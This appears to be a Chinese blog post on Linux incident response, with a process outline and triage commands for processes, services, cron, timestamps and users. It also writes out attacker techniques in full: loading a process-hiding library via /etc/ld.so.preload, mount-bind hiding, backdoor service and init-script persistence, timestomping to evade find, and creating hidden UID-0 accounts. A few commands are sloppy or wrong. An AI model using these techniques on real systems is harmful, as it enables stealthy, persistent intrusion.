






Linux IR - 应急响应排查
===

最近遇到了一个 Linux 应急响应 (Linux Incident Response) 的突发事件, 记录一下遇到的问题, 踩到的坑, 系统的响应流程以及常用命令。

## 应急响应流程 (PDCERP)

应急响应流程总的来说就是分为两部分, 未雨绸缪和亡羊补牢。

1. 准备 (Preparation)

提前建立响应能力, 指定相关计划, 组建并培训 IR 团队, 准备相应的工具包等等。最典型的活动就是管理日志, 网络流量捕获。

2. 检测 (Detection & Analysis)

发现并确认安全事件, 监控告警, 并进行初步分析。

3. 遏制 (Containment)

隔离受感染系统，阻止攻击扩散。切断网络, 拔网线 (物理), 主机隔离, 杀掉进程等。

4. 根除 (Eradication)

彻底清除攻击载体, 之后二次扫描比对等, 确保完全删除恶意文件。对 Linux 来说, 需要注意授权密钥对, `crontab` 等。

5. 恢复 (Recovery)

问题解决后逐渐解决业务正常运行。

6. 事后总结 (Post-Incident Activity)

写报告总结, 比如如果存在 0day 的话就很有必要写清楚。

## 常用命令 + 执行顺序

为了免得下次碰到这个情况手忙脚乱, 先把合适的命令整理下来

### 系统信息搜集

系统信息不论如何都必须进行, 较为老旧的 Linux 内核几几乎必然存在提权漏洞:

```bash
# 查看操作系统 + 内核信息
uname -a
cat /proc/version

# 查看系统时间
date
```

---



### 进程分析

恶意木马执行后一定会伴随一个恶意进程, 恶意进程的典型特征: 对 CPU 占用异常; 进程的运行时间, 持续时间与普通进程差异非常明显; 进程路径命令参数异常; 可能替换系统指令。

```bash
# 显示进程表, 视图效果类似任务管理器
top
```

---



---

```bash
# 查找指定进程
# 
# ps -u <username> -p <pid>

ps

# 可选参数: 
#  -aux 查看关联进程
ps -p 1809 -aux
```

---



---

```bash
# 查看相关联文件
cat /proc/<PID>/maps
```

---



---

```bash
# 查看进程关联文件
# CentOS 默认不安装这个命令
lsof -p <pid>
```

#### 进程隐藏

理解进程隐藏之前, 要先了解 Linux 系统指令的本质: Linux 的系统其实就是一个个**编译好的二进制文件**, 当用户执行指令时, 系统会从 **`$PATH`** 中从前往后读取, 取出其中的第一个**源文件**执行。如果攻击者修改并上传编译好的命令文件覆盖原有指令, 就可以达到偷梁换柱的效果。

>
> 例如用 `which` 这个指令就可以看某个命令具体的二进制代码在哪, 搜索规则同样是从 **`$PATH`** 里面读取:
>
> 

当攻击者完成提权后, 可以通过多重手段来进行进程隐藏。

例如:

- 本地编译上传覆盖或软连接劫持;

  可以查看命令的修改、更改时间来判断该命令是否被更改，还可以对比可疑命令和正常命令的 MD5 值是否相同。

- HooK 系统调用: 
  
  > `/proc` 是一个虚拟文件系统, 是 VFS 的实现形式, `/proc` 中包含了内核信息, 硬件信息, 进程信息等, `ps` 等工具就是通过分析 `/proc` 文件系统中进程相关目录的信息获取进程信息汇总。

  > `ps` 的工作原理, 调用 `openat` 系统函数获取 `/proc` 目录的文件句柄，然后调用系统函数 `getdents` 递归获取 `/proc` 目录下所有文件信息（包括子目录），然后开始 `open` 函数打开 `/proc/` 进程 `pid/stat`,`/proc/PID/status` , `/proc/PID/cmdline` 文件开始获取进程信息，然后打印给你看。

  Hook 类型的进程隐藏为拦截或者迷惑 `ps` 等工具从 `/proc` 获取分析结果的过程, 而非其本身。最简单的方法就是利用环境变量 `LD_PRELOAD` 或者配置 `ld.so.preload` 文件以使恶意的**动态库**先于系统标准库加载。

```bash
# 下载的恶意的动态库文件
$ git clone https://github.com/gianlucaborello/libprocesshider.git
正克隆到 'libprocesshider'...
remote: Enumerating objects: 30, done.
remote: Total 30 (delta 0), reused 0 (delta 0), pack-reused 30
Unpacking objects: 100% (30/30), done.
$ cd libprocesshider/
$ ls
evil_script.py  Makefile  processhider.c  README.md

# 编译动态库文件,注意操作系统需要拥有gcc的编译环境
$ make
gcc -Wall -fPIC -shared -o libprocesshider.so processhider.c -ldl
$ ls
evil_script.py  libprocesshider.so  Makefile  processhider.c  README.md

# 移动文件libprocesshider.so到/usr/local/lib文件夹下
$ mv libprocesshider.so /usr/local/lib

# 把它加载到全局动态连接库
$ echo /usr/local/lib/libprocesshider.so >> /etc/ld.so.preload
```

#### 伪造进程名称

这个很好理解:

```bash
$ exec -a bash python ./attack.py
# exec -a 更换后的进程名 原来的执行命令

[root@localhost ~]# ps -ef | grep bash
root      93508  93492  0 14:06 pts/1    00:00:00 bash attack.py
root      93565  93549  0 14:07 pts/2    00:00:00 -bash
```

#### 挂载隐藏

就是将另一个磁盘挂载到原有目录, 这样一来就会形成覆盖。

```bash
$ ps -ef | grep attack
root      94602  94572  0 14:27 pts/1    00:00:00 /bin/python ./attack.py

$ setenforce 0
$ mount -o bind /root/empty/ /proc/94602/
$ ps -ef | grep attack
# 注意我们需要将setenforce关闭，然后再使用挂载命令进行挂载。挂载完毕之后该进程的信息就被隐藏。
```

这一点可以通过 `fstab` 查看到挂载信息, 或者用这两个指令:

```bash
cat /proc/$$/mountinfo
cat /proc/mounts
```

列如:

```bash
# 查看是否有利用mount —bind 将其他目录或文件挂载至/proc下的进程目录的行为
$ cat /proc/$$/mountinfo
251 19 253:0 /root/empty /proc/94602 rw,relatime shared:1 - xfs /dev/mapper/centos-root rw,seclabel,attr2,inode64,noquota

$ cat /proc/mounts
/dev/mapper/centos-root /proc/94602 xfs rw,seclabel,relatime,attr2,inode64,noquota 0 0

# 使用umount命令进行卸载
$ umount /proc/94602/
$ ps -ef | grep attack
root      94602  94572  0 14:27 pts/1    00:00:00 /bin/python ./attack.py
```

### 网络分析

```bash
# 查看端口开放情况
netstat -pantu

# 网络接口情况
ifconfig
```

端口参考:
| 端口 | 服务 | 渗透测试 |
|------|------|----------|
| tcp 20,21 | FTP（文件传输协议） | 允许匿名的上传下载, 爆破, 嗅探, win提权, 远程执行(proftpd 1.3.5), 各类后门(proftpd, vsftp 2.3.4) |
| tcp 22 | SSH（安全外壳协议） | 可根据已搜集到的信息尝试爆破, v1版本可中间人, ssh隧道及内网代理转发, 文件传输等等 |
| tcp 23 | Telnet（远程终端协议） | 爆破, 嗅探, 一般常用于路由, 交换登陆, 可尝试弱口令 |
| tcp 25 | SMTP（简单邮件传输协议） | 邮件伪造, vrfy/expn查询邮件用户信息, 可使用smtp-user-enum工具来自动跑 |
| tcp/udp 53 | DNS（域名系统） | 允许区域传送, dns劫持, 缓存投毒, 欺骗以及各种基于dns隧道的远控 |
| tcp/udp 69 | TFTP（简单文件传送协议） | 尝试下载目标及其的各类重要配置文件 |
| tcp 80-89, 443, 8440-8450, 8080-8089 | 各种常用的Web服务端口 | 可尝试经典的topn, vpn, owa, webmail, 目标oa, 各类Java控制台, 各类服务器Web管理面板, 各类Web中间件漏洞利用, 各类Web框架漏洞利用等等…… |
| tcp 110 | POP3（邮局协议版本3） | 可尝试爆破, 嗅探 |
| tcp 111,2049 | NFS（网络文件系统） | 权限配置不当 |
| tcp 137,139,445 | SMB（NETBIOS协议） | 可尝试爆破以及smb自身的各种远程执行类漏洞利用, 如ms08-067, ms17-010, 嗅探等…… |
| tcp 143 | IMAP（邮件访问协议） | 可尝试爆破 |
| udp 161 | SNMP（简单网络管理协议） | 爆破默认团队字符串, 搜集目标内网信息 |
| tcp 389 | LDAP（轻量目录访问协议） | ldap注入, 允许匿名访问, 弱口令 |
| tcp 512,513,514 | Linux rexec（远程登录） | 可爆破, rlogin登陆 |
| tcp 873 | Rsync（数据镜像备份工具） | 匿名访问, 文件上传 |
| tcp 1194 | OpenVPN（虚拟专用通道） | 想办法钓VPN账号, 进内网 |
| tcp 1352 | Lotus（Lotus软件） | 弱口令, 信息泄漏, 爆破 |
| tcp 1433 | SQL Server（数据库管理系统） | 注入, 提权, sa弱口令, 爆破 |
| tcp 1521 | Oracle（甲骨文数据库） | tns爆破, 注入, 弹shell… |
| tcp 1500 | ISPmanager（主机控制面板） | 弱口令 |
| tcp 1723 | PPTP（点对点隧道协议） | 爆破, 想办法钓VPN账号, 进内网 |
| tcp 2082,2083 | cPanel（虚拟机控制系统） | 弱口令 |
| tcp 2181 | ZooKeeper（分布式协调系统） | 未授权访问 |
| tcp 2601,2604 | Zebra（zebra路由） | 默认密码zerbra |
| tcp 3128 | Squid（代理缓存服务器） | 弱口令 |
| tcp 3312,3311 | kangle（web服务器） | 弱口令 |
| tcp 3306 | MySQL（数据库） | 注入, 提权, 爆破 |
| tcp 3389 | Windows rdp（桌面协议） | shift后门[需03以下系统], 爆破, ms12-020 |
| tcp 3690 | SVN（版本控制系统） | svn泄露, 未授权访问 |
| tcp 4848 | GlassFish（应用服务器） | 弱口令 |
| tcp 5000 | Sybase/DB2（数据库） | 爆破, 注入 |
| tcp 5432 | PostgreSQL（数据库） | 爆破, 注入, 弱口令 |
| tcp 5900,5901,5902 | VNC（远程控制） | 弱口令爆破 |
| tcp 5984 | CouchDB（数据库） | 未授权导致任意指令执行 |
| tcp 6379 | Redis（数据库） | 可尝试未授权访问, 弱口令爆破 |
| tcp 7001,7002 | WebLogic（WEB应用系统） | Java反序列化, 弱口令 |
| tcp 7778 | Kloxo（虚拟主机管理系统） | 主机面板登录 |
| tcp 8000 | Ajenti（Linux服务器管理面板） | 弱口令 |
| tcp 8443 | Plesk（虚拟主机管理面板） | 弱口令 |
| tcp 8069 | Zabbix（系统网络监视） | 远程执行, SQL注入 |
| tcp 8080-8089 | Jenkins, JBoss（应用服务器） | 反序列化, 控制台弱口令 |
| tcp 9080-9081,9090 | WebSphere（应用服务器） | Java反序列化/弱口令 |
| tcp 9200,9300 | ElasticSearch（搜索服务器） | 远程执行 |
| tcp 11211 | Memcached（缓存系统） | 未授权访问 |
| tcp 27017,27018 | MongoDB（数据库） | 爆破, 未授权访问 |
| tcp 50070,50030 | Hadoop（分布式文件系统） | 默认端口未授权访问 |

###  启动项分析

这一项比较多并且复杂, 首先要了解 `service` 和 `systemctl`:

#### 服务项排查

> CentOS6 中服务 Service 启动脚本都放在 `/etc/rc.d/init.d/` 下，`/etc/init.d/` 是 `/etc/rc.d/init.d/` 的软链接; CentOS7 中 `Service` 命令会被重定向到 `Systemctl` 的脚本。

> CentOS7 的服务 `systemctl` 脚本存放在 `/usr/lib/systemd/` 下，并且有着 user 和 system 的区分，就像在 windows 中有着系统启动以及用户登录之分。像需要开机不登陆就能运行的程序，即`/usr/lib/systemd/system` 目录下。

```bash
[root@localhost ~]# ll /usr/lib/systemd/system | grep sshd
-rw-r--r--. 1 root root     313 8月   7 2017 sshd-keygen.service
-rw-r--r--. 1 root root     373 7月  24 16:34 sshd.service
-rw-r--r--. 1 root root     260 8月   7 2017 sshd@.service
-rw-r--r--. 1 root root     181 8月   7 2017 sshd.socket
# 例如刚刚的sshd是系统启动就会运行的服务，在/usr/lib/systemd/system下就可以找到。
```

> Linux 7种运行级别：runlevel查看当前运行级别；init[0~6]切换运行级别
> 运行级别0：系统停机状态，系统默认运行级别不能设为0，否则不能正常启动 
> 运行级别1：单用户工作状态，root权限，用于系统维护，禁止远程登陆 
> 运行级别2：多用户状态(没有NFS) 
> 运行级别3：完全的多用户状态(有NFS)，登陆后进入控制台命令行模式 
> 运行级别4：系统未使用，保留 
> 运行级别5：X11控制台，登陆后进入图形GUI模式 
> 运行级别6：系统正常关闭并重启，默认运行级别不能设为6，否则不能正常启动;

可以试试自己创建一个 `.service` 文件并设置开机启动, `.service` 文件分为三部分: `[Unit]`、`[Service]` 和 `[Install]`:

```bash
[root@localhost ~]# vim attack.service
----------------------------------------------------------------------------------------
[Unit]
Description=attack test
# 描述部分
After=network.target

[Service]
User=root
Type=simple
Type=oneshot
RemainAfterExit=yes
ExecStart=/root/linux.elf
ExecStop=/bin/kill -s HUP $MIANPID
ExecReload=/bin/kill -s QUIT $MAINPID
# Type启动类型为立即启动，ExecStart启动命令[启动后门文件]，ExecStop停止命令，ExecReload重启命令

[Install]
WanteBy=multi-user.target
# 多用户使用
##更多选项可以见 https://www.jb51.net/article/157144.htm
----------------------------------------------------------------------------------------

[root@localhost ~]# mv attack.service /usr/lib/systemd/system/attack.service
[root@localhost ~]# systemctl daemon-reload
# 重新加载所有服务
[root@localhost ~]# systemctl start attack.service
# 开启服务启动后门脚本
[root@localhost ~]# systemctl enable attack
# 将一个服务设置为开机启动
[root@localhost ~]# systemctl is-enabled attack.service
# 检查一个服务是否存在开机启动，若返回的值是enabled则表明开机启动，若返回的值为static则表示需要手动启动

#####
# 如果说使用enable命令没有办法创建开机自启，则手动在以下目录中添加服务的软连接
[root@localhost ~]# ln -s '/usr/lib/systemd/system/attack.service' '/usr/lib/systemd/system/multi-user.target.wants/attack.service'
#####
[root@localhost ~]# systemctl list-unit-files | grep enable
# 通过Systemctl查看所有开启的服务
```

#### 启动脚本排查

1. `rc.local`

CentOS7 中启动脚本命令放在了 `/etc/rc.d` 目录下的 `rc.local` 文件中，该脚本在正常情况下是没有可执行权限的 `[644]`，在这种情况下若向文件中添加启动命令也不会执行。那么若黑客对失陷的 `CentOS` 服务器配置了脚本开机启动，则该文件的权限为 `[755]`。

```bash
[root@localhost rc.d]# chmod +x rc.local
[root@localhost rc.d]# ll
-rwxr-xr-x. 1 root root 495 7月  24 17:16 rc.local
# 注意可执行权限

[root@localhost ~]# cat /etc/rc.d/rc.local
/root/linux.elf
# 以上例子，若该脚本中含有elf格式的后门文件则会在系统启动时运行。
```

2. `chkconfig`

通过 `chkconfig` 的方式添加 `.sh` 启动脚本，`chkconfig`主要包括 5 个原始功能：为系统管理增加新的服务、为系统管理移除服务、列出单签服务的启动信息、改变服务的启动信息和检查特殊服务的启动状态。当单独运行 `chkconfig` 命令而不加任何参数时，他将显示服务的使用信息。

> -  `--add`: 开启指定的服务程序;
> -  `--del`: 关闭指定的服务程序;
> -  `--list`: 列出chkconfig所知道的所有服务;
> -  `--level<number>`: 设置服务程序的等级代号，它是一串0~7的数字，如`-level35` 代表指定运行等级 3 和 5; 
> -  `--help`: 显示帮助信息;
> -  `--version`: 显示版本信息;

```bash
[root@localhost ~]# vim /etc/rc.d/init.d/linux_ln.sh
-------------------------------------
#!/bin/sh
#chkconfig:2345 10 90 
#decription:backdoor
/root/linux.elf
-------------------------------------

Explanation：
	#chkconfig:[2345]设置该脚本的启动级别，[10]为启动优先级，[90]为关闭优先级，[1~100]越小越优
	#decription:描述信息
  #最后就是需要执行的命令

[root@localhost ~]# cd /etc/rc.d/init.d/
[root@localhost init.d]# chkconfig --add linux_ln.sh
[root@localhost init.d]# chkconfig --level 2 linux_ln.sh on
###注意启动脚本我们需要给定可执行权限，包括对应的恶意脚本###
#可以通过指定级别的方式，打开或者关闭特定级别下的脚本

[root@localhost ~]# chkconfig --list
linux_ln.sh     0:关    1:关    2:开    3:开    4:开    5:开    6:关

[root@localhost ~]# ll /etc/init.d/
-rwxrwxrwx. 1 root root    69 6月  27 10:42 linux_ln.sh

[root@localhost ~]# ll /etc/rc.d/rc3.d/
lrwxrwxrwx. 1 root root 21 6月  27 11:27 S10linux_ln.sh -> ../init.d/linux_ln.sh
#我们可以看到相对应的目录以及级别下都会出现我们刚刚创建的脚本文件软连接。
```

#### 计划任务排查

这也是个非常常见的攻击面, `crond` 会定期执行计划任务:

```bash
[root@localhost tmp]# systemctl stop crond.service
[root@localhost tmp]# systemctl start crond.service
[root@localhost tmp]# systemctl enable crond.service
[root@localhost tmp]# systemctl reload crond.service
# 停止、启动、开机自启、重新载入crond服务

[root@localhost ~]# crontab -u attack -e
# 编辑attack用户的计划任务，格式如下：
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed
# Crontab案例详见：https://www.cnblogs.com/jierong12/p/8384964.html

[root@localhost ~]# vim /etc/crontab
#也可以通过直接编辑crontab文件的方式来创建

[root@localhost ~]# crontab -u attack -l
[+] */3 * * * * ls >> /tmp/2020test
# 查看attack用户下的计划任务

[root@localhost ~]# crontab -u attack -r
# 删除attack用户的计划任务
```

查看所有用户的任务表:

```bash
cat /etc/passwd | cut -f 1 -d : |xargs -I {} crontab -l -u {}
```

### 文件修改

首先要了解文件修改属性: 

> * 当读取文件时，access time改变，而modify，change time不会改变。
> * 当修改文件时，access, modify，change time都会跟着改变。
> * 当修改属性时，change time改变，而access，modify time不变。
> * more、less、cat.、nl、tail、 tac等命令会更改atime。
> * Is、stat命令不会修改文件的atime。
> * 修改时间，修改时间是文件内容最后一次被修改时间。比如: vi后保存文件。
> * 状态改动时间，是该文件的i节点最后一次被修改的时间，所谓的i节点说白了就是文件信息。
> * 通过 `chmod`. `chown`修改文件属性，会更新`ctime`。 `touch`则会更改`atime`，`ctime`，`mtime`。

当在检查 linux 服务器的时候需要用 `stat` 或者 `ls` 进行确认服务器本身的命令没有被替换掉 (`ps` 命令和 `netstat` 命令)，**看 `modify` 改变时间是否和事发时间是否存在关联性**，一般来讲 `/bin` 下面的命令文件 mtime 通常**不会是最新**的。

例如:

```bash
[root@localhost ~]# stat linux.elf
  文件："linux.elf"
  大小：250             块：8          IO 块：4096   普通文件
设备：fd00h/64768d      Inode：67144925    硬链接：1
权限：(0777/-rwxrwxrwx)  Uid：(    0/    root)   Gid：(    0/    root)
环境：unconfined_u:object_r:admin_home_t:s0
最近访问(atime)：2020-07-27 10:19:57.406590550 +0800
最近更改(mtime)：2020-07-27 09:59:38.585130033 +0800
最近改动(ctime)：2020-07-27 10:15:25.427789695 +0800
创建时间：-
#stat命令的详细使用方式可以详见：https://www.cnblogs.com/machangwei-8/p/10350895.html
----------------------------------------------------------------------

[root@localhost ~]# ls -l linux.elf
-rwxrwxrwx. 1 root root 250 7月  27 09:59 linux.elf
#最后修改时间，mtime(modify time)
[root@localhost ~]# ls -lc linux.elf
-rwxrwxrwx. 1 root root 250 7月  27 10:15 linux.elf
#最后更改时间，ctime(change time)
[root@localhost ~]# ls -lu linux.elf
-rwxrwxrwx. 1 root root 250 7月  27 10:19 linux.elf
#最后访问时间，atime(access time)

[root@localhost ~]# find /sbin/ -mtime 0
[root@localhost ~]# find /bin/ -mtime 0
#通过find命令查看一天内修改的命令文件，-1为一小时以内修改的文件，+1为一小时之前修改的文件。
```

如果仍然不确定, 那么可以进一步的用 md5 来检查:

```bash
# 例如算出 ps 命令的哈希
[root@localhost ~]# md5sum /bin/ps
[+] 8f71c85b9cc1809af7e7612c6144c527  /bin/ps
```

---

根据文件修改时间检查:

当我们的 linux 操作系统被恶意入侵的时候，攻击者往往会在一些重要的目录下修改部分文件或者创建文件，就例如开机启动项、启动脚本等。那么如果需要快速的查找特定时间内被修改的文件，则可以通过以下几种方法来进行。

```bash
#第一种方法：
$find -type f -mtime -1
# 通过指定查找时间的种类[mtime、atime、ctime]并加上时间参数即可以查找固定时间内被修改或创建的文件
# -1表示24小时之内的时间范围；
#  1表示24小时外48小时内的时间范围；
# +1表示48之外的时间范围。

#第二种方法:
$ find / -type f -newermt '2020-08-17 00:00' -a -not -newermt '2020-08-18 23:59'
# 通过-newermt参数来指定查找时间的范围，通过-a -not来连接两个时间。mt指的是mtime，也可以是ct和at。
```

### SUID, SGID 专栏

如果一个可执行文件 **(必须是二进制文件)** 设置了 SUID/SGID, 那么运行该文件的时候将以 **文件所有者/文件所有者所在组** 的权限执行, 而不是执行者自身权限。

原理和例子在 [Linux 提权总结](https://r4x.top/2025/05/14/privesca/) 中已有。

举个例子, 如果 `find` 命令的二进制源文件设置了 SUID 且所有者为 root, 那么其他用户 (user) 就可以使用这个命令来轻而易举的提权, 设想这条命令:

```bash
find  / -exec whoami
```

返回结果将是 "root" 而非 "user", 因为在 `find` 内部执行 `whoami` 时使用的身份是 root。换句话说, 这个情景几乎就等于可任意执行 root 代码, 非常容易提权。

### `find` 命令检查绕过

`find` 命令检索的是文件的 `mtime` 或者 `ctime`，那么我们只要将时间修改为一个很久之前或者文件原来的时间点，那么就可以轻松的绕过 `find` 命令的检索。

```bash
[root@localhost ~]# stat attack.sh
  File: ‘attack.sh’
Access: 2021-03-15 14:34:32.614734195 +0800
Modify: 2021-03-15 14:34:32.614734195 +0800
Change: 2021-03-15 14:34:38.358908431 +0800
 
# touch -r命令可以将一个文件的时间信息赋值给另一个文件
# 但是需要注意的是Change时间不会被更改
[root@localhost ~]# touch -r /bin/ps
ps             psed           psfaddtable    psfgettable    psfstriptable  psfxtable      pstruct
[root@localhost ~]# touch -r /bin/ps attack.sh
[root@localhost ~]# stat attack.sh
  File: ‘attack.sh’
Access: 2021-03-12 10:40:54.041630451 +0800
Modify: 2017-08-04 19:12:27.000000000 +0800
Change: 2021-03-15 14:35:01.533862615 +0800

# touch -a 表示只修改一个文件的访问时间。
# touch -m 表示只修改一个文件的修改时间。
# touch -t 表示用[[CC]YY]MMDDhhmm[.ss]这种时间格式来指定时间属性的修改值
# touch -c 如果文件不存在则不修改文件
[root@localhost ~]# touch -at 202111111112.59 attack.sh
[root@localhost ~]# stat attack.sh
  File: ‘attack.sh’
Access: 2021-11-11 11:12:59.000000000 +0800
Modify: 2017-08-04 19:12:27.000000000 +0800
Change: 2021-03-15 14:47:47.949361407 +0800


# touch -d 以字符串的形式修改时间
[root@localhost ~]# touch -d "20121111 18:11:11" attack.sh
[root@localhost ~]# stat attack.sh
  File: ‘attack.sh’
Access: 2012-11-11 18:11:11.000000000 +0800
Modify: 2012-11-11 18:11:11.000000000 +0800
Change: 2021-03-15 14:50:30.612867023 +0800

#################NP Date#################
date -s 02/03/1999 >> DeepMountains.exe
# 可以直接修改MT和CT
```

### 可疑用户排查

#### 当前登录用户

检查当前登录用户, 这个命令的查看痕迹在: `/var/run/utmp`

```bash
[root@localhost bin]# w
 09:21:59 up 22:35,  1 user,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     pts/0    192.168.222.1    Mon10    1:43   0.34s  0.34s -bash	

# " up 22:33 " 表示系统运行时间
# " lOGIN@ " 登录时间
# " IDLE " 用户闲置时间
# " JCPU " 所有进程的占用CPU时间
# " PCUP " 当前进程占用CPU的时间
# " WHAT " 当前用户执行的进程和选项

[root@localhost bin]# who
root     pts/0        2020-07-27 10:48 (192.168.222.1)
# " who " 查看当前登录用户、连接方式、登录时间

[root@localhost bin]# users
root
# " users " 查看当前连接用户的用户名

[root@localhost bin]# uptime
 09:24:10 up 22:37,  1 user,  load average: 0.00, 0.01, 0.05
# " uptime " 查看登陆多久、多少用户，负载
```

####  异常用户排查

利用 `/etc/passwd` 可以查看当前系统中存在的所有用户，排查是否有异常新建用户、用户弱口令、是否拥有 shell。需要注意 `/etc/passwd` 默认权限为 644，其最小权限为444。

```bash
[root@localhost ~]# cat /etc/passwd |grep root
[+] root:x:0:0:root:/root:/bin/bash 
# account:password:UID:GID:GECOS:directory:shell

[root@localhost ~]# awk -F: '$3==0{print $1}' /etc/passwd
[+] root
# 查询所有uid 为0的特权用户
```

- 红队攻击命令：创建超级用户

```bash
useradd attack;echo 'attack:123456'|chpasswd
#chpasswd更改用户的密码必须是系统中存在的用户，所以首先需要添加该用户
#chpasswd < user.pass可以批量更改用户密码

useradd -p "$(openssl passwd 123456)" guest
#创建guest用户并设置通过openssl命令加密的密码123456，这个密码在shadows里查看的时候是显示加密的

useradd -p "$(openssl passwd 123456)" -u 0 -o -g root -G root -d /usr/bin/guest guest
#创建guest用户并设置UID为0，-o表示允许重复的UID，-g表示主组的名称，-G表示附加组列表，-d设置用户的主目录
#基本组：如果没有指定用户组，创建用户的时候系统会默认同时创建一个和这个用户名同名的组，这个组就是基本组，不可以把用户从基本组中删除。在创建文件时，文件的所属组就是用户的基本组。
#附加组：除了基本组之外，用户所在的其他组，都是附加组。用户是可以从附加组中被删除的。
#用户不管在基本组中还是附加组中，就会拥有该组的权限。一个用户可以属于多个附加组，但有且只能有一个基本组。
    [*] 普通用户添加root权限
    echo "guest:x:0:0::/:/bin/sh" >> /etc/passwd
    [*] 若要删除UID=0的用户则讲UID修改成正常用户的UID
```

- 蓝队防守命令: 删除或禁用用户


```bash
usermod -L user 
# 禁用帐号，帐号无法登录，/etc/shadow第二栏为!开头

userdel user 
# 删除user用户

userdel -r user 
# 将删除user用户，并且将/home目录下的user目录一并删除
```

- 现代 Linux 密码文件: `/etc/shadow`, 默认权限为 600, 最小权限为400;

```bash
[root@localhost ~]# cat /etc/shadow |grep root
[+] root:$6$Yt8rp8fmHYrLl2dJ$ziIjeEzcGk3K33AuSAAWQxBftN7iO8H38UvWE9QBh6tETOUtzBXSfWL6mU/Z6eXWobrgYmjaX/u/w3LXfHbt9/::0:99999:7:::
# 用户名:加密密码:密码最后一次修改日期:两次密码的修改时间间隔:密码有效期:密码修改到期到的警告天数:密码过期之后的宽限天数:账号失效时间:保留

[root@localhost ~]# awk '/\$1|\$6/{print $1}' /etc/shadow
[+] root:$6$Yt8rp8fmHYrLl2dJ$ziIjeEzcGk3K33AuSAAWQxBftN7iO8H38UvWE9QBh6tETOUtzBXSfWL6mU/Z6eXWobrgYmjaX/u/w3LXfHbt9/::0:99999:7:::
[+] attack:$6$xTCPrKysj$F9ZthjmaxZ0M/VHP5u9ZHiELISHbFWkym/.24hqKwbz9rtG7mFOeL9Dj0Y7FEhHF.cBzuuOlEMZaPsS5TtaiK0:18471:0:99999:7:::
# " /  / "为代码块
# " \$1|\$6 "为转译后的字符串"$1或者$6",输出的字符串中满足其一则输出字段1
# 但是shadow文件中只有一个字段，即所有内容都连在一起。
# awk的详细使用方法详见：https://blog.csdn.net/zhangshenghang/article/details/85065598
```

